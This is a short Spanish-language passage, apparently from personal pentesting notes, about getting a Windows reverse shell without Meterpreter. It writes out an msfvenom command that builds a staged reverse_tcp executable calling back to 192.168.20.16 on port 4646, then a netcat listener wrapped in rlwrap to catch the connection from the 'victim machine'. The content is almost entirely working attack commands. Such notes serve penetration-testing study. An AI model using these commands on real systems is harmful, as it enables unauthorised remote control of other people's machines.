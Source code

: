 
-------

Para ponerse en escucha sin utilizar el meterpreter de Metasploit, usaremos la herramienta de netcat. Primeramente, crearemos el payload staged, el cual servirá para el acceso a la máquina víctima de la siguiente forma:

```
msfvenom -p windows/shell/reverse_tcp --platform windows -a x64 LHOST=192.168.20.16 LPORT=4646 -f exe -o reverse.exe
```

Una vez generado el payload y ya instalado en la máquina víctima, lo que haremos es ponernos en escucha con netcat de la siguiente forma, usando la utilidad de [[rlwrap]] con netcat:

```bash 
rlwrap nc -nlvp 4646 
```


